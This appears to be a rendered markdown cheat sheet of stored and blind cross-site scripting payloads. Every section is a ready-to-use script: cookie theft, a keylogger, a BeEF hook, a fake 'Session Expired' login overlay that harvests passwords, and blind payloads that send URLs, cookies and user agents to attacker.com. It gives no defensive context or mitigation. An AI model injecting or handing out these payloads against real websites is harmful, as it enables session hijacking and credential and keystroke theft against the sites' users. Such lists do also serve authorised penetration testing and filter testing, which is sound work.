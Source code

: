 ## Persistent (Stored) XSS Payloads
Payloads that persist in the database and execute when viewed

### Basic Persistent
```html
<script>alert(document.cookie)</script>
```

### Stealing Cookies
```html
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
```

### Keyloggers
```html
<script>document.onkeypress=function(e){fetch('https://attacker.com/log?key='+e.key)}</script>
```

### BeEF Hooks
```html
<script src="http://attacker.com/hook.js"></script>
```

### Fake Login Forms
```html
<div style="position:absolute;top:0;left:0;width:100%;height:100%;background:white">
  <form action="https://attacker.com/steal" method="POST">
    <h1>Session Expired</h1>
    <input type="text" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" value="Login">
  </form>
</div>
```

## Blind XSS Payloads
Payloads for when you can't see the output directly

### Basic Blind
```html
<script>fetch('https://attacker.com/?blind='+document.location.href)</script>
```

### Advanced Blind
```html
<script>
  var data = '';
  data += 'URL: ' + document.location.href + '\n';
  data += 'Cookies: ' + document.cookie + '\n';
  data += 'User-Agent: ' + navigator.userAgent + '\n';
  fetch('https://attacker.com/collect', {method:'POST',body:data});
</script>
```
